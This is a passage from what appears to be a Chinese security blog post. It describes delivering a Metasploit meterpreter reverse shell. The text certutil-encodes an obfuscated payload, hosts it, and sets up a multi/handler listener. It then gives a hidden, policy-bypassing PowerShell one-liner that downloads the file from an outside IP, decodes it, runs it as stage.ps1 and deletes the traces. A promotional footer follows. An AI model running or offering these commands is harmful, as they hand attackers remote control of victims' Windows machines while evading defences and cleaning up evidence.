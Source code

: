 将混淆的代码保存到本地为`crt.txt`用`certutil`进行`encode`加密

```
certutil -encode crt.txt crt.cer
```

将`cer.cet`放入 http 服务器目录下，使用 msf 开启监听

```
msf6 > use exploit/multi/handler [*] Using configured payload generic/shell_reverse_tcpmsf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcppayload => windows/meterpreter/reverse_tcpmsf6 exploit(multi/handler) > set lhost 192.168.10.11lhost => 192.168.10.11msf6 exploit(multi/handler) > set lport 8888lport => 8888msf6 exploit(multi/handler) > run
```

然后靶机执行如下命令即可获得反弹 session

```
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\crt.cer (New‐Object Net.WebClient).DownloadString('http://172.20.10.4/crt.cer'); certutil ‐decode %APPDATA%\crt.cer %APPDATA%\stage.ps1 & start /b cmd /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\crt.cer
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

本月报名可以参加抽奖送 Kali NetHunter 手机的优惠活动  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvouibfico2qhUHkxIvX2u13s7zzLMaFdWAhC1MTl3xzjjPth3bLibSZtzN9KGsEWibPgYw55Lkm5VuKthibQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497897&idx=1&sn=5801b91d451b4c253eb3e2c5ff220673&chksm=ec1cad96db6b2480ce0be49a377819558c06b29603b812512b7cb52ca0c123bc444764f11502&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：ckin

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)